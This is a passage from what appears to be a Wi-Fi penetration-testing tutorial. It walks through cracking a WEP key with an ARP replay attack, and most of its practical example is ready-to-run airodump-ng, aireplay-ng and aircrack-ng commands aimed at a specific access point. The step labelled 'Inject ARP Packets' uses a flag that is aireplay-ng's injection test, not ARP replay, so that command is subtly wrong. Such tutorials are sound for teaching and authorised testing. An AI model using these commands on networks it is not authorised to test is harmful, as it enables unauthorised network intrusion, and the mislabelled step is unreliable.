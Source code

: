 3. **What Happens During the Attack:**
   - The AP will now continuously generate new packets with fresh IVs each time the ARP packet is injected.
   - The data packets will start accumulating rapidly, making it easier to crack the WEP key.

4. **Cracking the WEP Key:**
   - Once enough data has been gathered, you can run **aircrack-ng** to attempt to crack the WEP key.
   - Command:
     ```bash
     aircrack-ng arpreplay-01.cap
     ```
   - The `aircrack-ng` tool will use the captured packets (with the IVs) to attempt a WEP key recovery. After processing enough data, it will reveal the WEP key.

5. **Key Results:**
   - Once you run `aircrack-ng`, the WEP key will be found.
   - This is done in a relatively short time (in the example, around 47,000 packets), thanks to ARP request injection.

---

### Practical Example:

- **Scenario:**
   - A network with no significant traffic is being targeted.
   - Data collection is slow, so ARP replay attack is used to inject packets, forcing the AP to generate new data quickly.

1. **Capture Data:**
   ```bash
   airodump-ng --bssid 00:14:6C:7E:40:80 --channel 6 --write arpreplay mon0
   ```
2. **Associate with the Network:**
   ```bash
   aireplay-ng --fakeauth 0 -a 00:14:6C:7E:40:80 -h 00:24:7B:DA:27:72 mon0
   ```
3. **Inject ARP Packets:**
   ```bash
   aireplay-ng -b 00:14:6C:7E:40:80 -h 00:24:7B:DA:27:72 -9 mon0
   ```
4. **Run aircrack-ng to Crack the WEP Key:**
   ```bash
   aircrack-ng arpreplay-01.cap
   ```

### Key Takeaways:
- By injecting ARP packets, we can force the AP to generate new IVs quickly, allowing us to gather enough data to crack WEP faster.
- This method is highly effective and is the most reliable approach for cracking WEP encryption in a scenario with minimal network activity.

---

